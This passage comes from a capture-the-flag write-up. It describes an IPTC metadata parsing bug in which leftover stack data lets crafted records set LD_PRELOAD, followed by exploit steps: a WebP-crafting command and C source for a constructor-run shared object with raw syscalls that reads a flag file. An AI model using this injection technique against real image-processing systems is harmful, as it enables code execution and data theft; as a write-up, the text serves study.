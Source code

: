 In the uninitialized data, the element at index `0x0e` is conveniently pointing to the value of the last validated IPTC entry!

This is because the validation function prints a list of encountered elements with `fprintf`. The `*printf` family of functions are quite complex and somewhere internally the pointer of the last `%s` that contains the value pointer is pushed on the stack. The print function's frame matches up in such a way that this pointer matches with the parsing function frame's `env_table[9][14]`.

By crafting IPTC metadata with 9:14 containing the ELF path and another record afterwards with a valid address in the table (e.g. 9:24) containing the target environment variable `LD_PRELOAD`, we can write the variable so that our ELF is executed.


## Exploit

This is a summary of the exploit. Please see the exploit Dockerfile and `exploit`.

At first we have to create a tiny WebP animation with 2 frames and 1x1 size: `convert -delay 100 -size 1x1 xc:Red -page 1x1 xc:Green -loop 0 mini.webp`

We can use that and `xxd` to create a header file and build a shared object file that reads the flag and places it as metadata:

```c
#include "miniwebp.h"
#include <asm/unistd_64.h>

#define SEEK_SET 0
#define SEEK_CUR 1
#define SEEK_END 2

#define AT_FDCWD		-100

#ifdef DEBUG
#define FLAG "../challenge/flag.png"
#define CONSTRUCT_ATTR
#else
#define FLAG "/flag.png"
#define CONSTRUCT_ATTR __attribute__((constructor))
#endif


typedef unsigned long long uint64_t;
typedef unsigned int uint32_t;
typedef long long int64_t;

_Static_assert(sizeof(uint32_t) == 4, "uint32_t does not match!");
_Static_assert(sizeof(uint64_t) == 8, "uint64_t does not match!");
_Static_assert(sizeof(int64_t) == 8, "int64_t does not match!");


uint64_t syscall(register uint64_t call_no, uint64_t arg0, uint64_t arg1, uint64_t arg2, uint64_t arg3, uint64_t arg4, uint64_t arg5) {
    register uint64_t call_no_asm asm("rax") = call_no;
    register uint64_t arg0_asm asm("rdi") = arg0;
    register uint64_t arg1_asm asm("rsi") = arg1;
    register uint64_t arg2_asm asm("rdx") = arg2;
    register uint64_t arg3_asm asm("r10") = arg3;
    register uint64_t arg4_asm asm("r8") = arg4;
    register uint64_t arg5_asm asm("r9") = arg5;

    uint64_t output;

    asm volatile(
        "syscall\n"
        "mov %%rax, %[output]\n"
```